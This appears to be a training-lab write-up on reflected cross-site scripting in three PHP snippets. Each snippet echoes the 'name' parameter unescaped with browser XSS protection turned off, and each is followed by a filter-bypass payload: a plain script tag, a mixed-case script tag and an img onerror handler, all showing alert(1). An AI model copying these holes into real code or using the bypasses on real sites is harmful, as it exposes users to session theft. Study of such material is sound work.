 # Vulnerable Code 1
This code will get a user input with "name" parameter and reflect result to user. 

```php

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

## Abuse

Since there is no input filtering we can add javascript code in our request and execute on client browser. To weponize it we can sent url to a user and redirect their session cookies or execute malicious javascript code on their browser. For simple demonstration we will make it pop-up a message

## Payload

```php
<script>alert(1)</script>
```

## Result

```php
<pre>Hello <script>alert(1)</script></pre>
```

# Vulnerable Code 2
This code will get a user input with "name" parameter and reflect result to user. 

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```


## Abuse

There is filtering unlike code-1 but mechanism is not secure. The problem here, any user input will be controlled and if there is "\<script>" inside of it, code will delete it. The issue here javascript can be executed with capital and lower case also so it is not case sensitive. Since code filters only "\<script>" with lower characters, we can make it like "\<ScRipT" and bypass filtering. 

## Payload

```php
<ScRipT>alert(1)</ScRipT>
```


## Result

# Vulnerable Code 3

This code will get a user input with "name" parameter and reflect result to user. 

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
```

## Abuse

In this code, unlike code-2, filtering is NOT case sensitive, "preg_replace" function will filter any given user input that contains "script". We can still execute other javascript command without "\<script>" tag. To abuse this, we will define an image tag and set source to an unknown location and force it get error. When error occurs we will make it to run our own javascript code

## Payload

```php
<IMG SRC=/ onerror="alert(1)"></img>
```

## Result

```php
<pre>Hello <img src="/" onerror="alert(1)"></pre>
```
